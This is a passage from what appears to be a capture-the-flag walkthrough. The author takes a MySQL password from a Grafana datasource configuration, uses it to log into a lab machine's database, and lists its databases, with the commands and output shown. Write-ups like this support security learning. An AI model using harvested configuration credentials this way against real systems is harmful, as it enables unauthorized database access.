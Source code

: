     datasources:
     - name: mysql.yaml 
       type: mysql
       host: localhost
       database: grafana
       user: grafana
       password: dontStandSoCloseToMe63221!
       editable: false



#### Connect to MySQL

I'll try these creds to connect to the DB, and they work:



    oxdf@hacky$ mysql -h 10.10.11.183 -u grafana -p'dontStandSoCloseToMe63221!'
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 10
    Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

    Copyright (c) 2000, 2022, Oracle and/or its affiliates.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql>



### SSH

#### Enumerate Databases

MySQL is running two non-standard databases, `grafana` and
`whackywidget`:



    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | grafana            |
    | information_schema |
    | mysql              |
    | performance_schema |
    | sys                |
    | whackywidget       |
    +--------------------+
    6 rows in set (0.10 sec)
